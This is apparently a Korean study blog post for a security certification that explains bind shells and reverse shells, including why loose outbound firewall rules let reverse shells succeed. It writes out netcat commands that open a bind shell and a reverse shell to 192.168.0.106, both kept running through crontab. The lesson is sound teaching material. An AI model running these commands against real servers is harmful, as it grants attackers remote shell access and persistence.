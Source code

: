 ```yaml
---
layout: single
title: 바인드 쉘(Bind Shell), 리버스 쉘(Reverse Shell)
category: 컴퓨터
tag: [보안, security, 정보보안기사]
published: true
---
```


## Outline

- 바인드 쉘과 리버스쉘의 쉘 획득 원리 설명
- 리버스 쉘이 성공하게 되는 서버의 취약 설정 설명
- 바인드 쉘과 리버스 쉘을 이용한 쉘 권한 획득 실습

## 바인드 쉘 (Bind Shell)

클라이언트/공격자가 서버에 접속하여 서버의 쉘을 획득하는 방식


![Pasted image 20230509205411.png]({{site.url}}/_images/2023-05-14-01/Pasted%20image%2020230509205411.png)

1. Alice는 서버 쉘 획득을 위해 사전에 서버에 접속하여 **nc -lvp 1234 -e /bin/bash** 명령을 **crontab(서버스케줄러)**\에 등록하여 1234 포트를 listen 상태로 유지한다.
2. 이후 Alice는 언제든지 Bob의 서버에 1234포트로 원격 접속 할 수 있다.    
![screenshot 1.png](/_images/2023-05-14-01/screenshot%201.png)

## 리버스 쉘 (Reverse Shell)

타겟 서버가 클라이언트/공격자로 접속해 클라이언트가 서버의 쉘을 획득하는 방식
일반적으로 **서버방화벽(iptables)** 의 인바운드 정책의 경우 공개 서비스에 대해서만 화이트리스트 방식으로 엄격히 관리하지만 아웃바운드 정책의 경우 비교적 느슨하게 관리하는 취약점을 노린 공격이다.

![Pasted image 20230509220225.png](/_images/2023-05-14-01/Pasted%20image%2020230509220225.png)

1. Alice는 기존 바인드 쉘(Bind Shell)을 이용한 공격에 실패하고 그 원인을 방화벽 설치로 추측 하여 리버스 쉘(Reverse Shell)공격을 시도 한다.
2. Alice는 사전에 서버에 접속하여 자신의 PC에 접속을 시도하여 쉘(/bin/shell)을 실행하는 명령 **nc -e /bin/bash 192.168.0.106** 을 **crontab(서버스케줄러)** 에 등록한다.
3. 이후 Alice는 자신의 PC에 1234포트를 listen상태로 놓고(**nc -lp 1234**) 서버의 접속요청을 기다린다.
4. 서버요청이 연결되면 서버의 쉘 사용이 가능하다.    
![screenshot 2.png](/_images/2023-05-14-01/screenshot%202.png)

## connection documents
- 
